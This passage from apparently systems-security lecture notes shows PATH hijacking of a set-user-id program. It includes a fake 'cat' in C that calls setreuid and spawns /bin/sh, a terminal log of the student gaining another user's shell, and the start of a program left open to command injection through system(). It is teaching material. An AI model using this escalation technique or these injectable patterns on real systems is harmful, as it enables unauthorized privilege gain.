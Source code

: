 ```
m179998@saddleback: ~ $ export PATH=.:$PATH
m179998@saddleback: ~ $ echo $PATH
.:/home/mids/m179998/bin:/usr/local/bin:/usr/bin:/usr/include:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

This time, instead of doing something silly with our version of cat lets do something not so silly.
Let's have it run a shell and also set our real user id:

```
#include <stdlib.h>
#include <stdlib.h>

int main(){

  char * args[]={"/bin/sh",NULL};

  //set our real uid to our effective uid
  setreuid(geteuid(),geteuid());

  execvp(args[0],args);

}
```

This time when we run the system_cat program, it will run bash as the set-user-id user. Now we've just escalated privilege.

```
m179998@saddleback:~$ ~aviv/lec-24-demo/system_cat
$ id
uid=35001(aviv) gid=15000(mids) groups=10120(scs),15000(mids),15001(ic221)
$ bash
bash: /home/mids/m179998/.bashrc: Permission denied
aviv@saddleback:~$
```

And now user `m179998` has become user `aviv`!

## Injection Attacks

Now, lets consider a situation where you use system() better.
You call all programs with absolute path and everything, but even that is not enough.
You must also consider injection attacks which is when the attacker can inject code that will run.
In our case, the injected code will be bash.

Consider this program which prompts the user for a file to cat out.

```
/* inject_system.c*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(){

  char cmd[1024] = "/bin/cat ./"; //will append to this string

  char input[40];

  printf("What input do you want to 'cat' (choose from below)\n");
  system("/bin/ls"); //show available files

  printf("input > ");
  fflush(stdout); //force stdout to print

```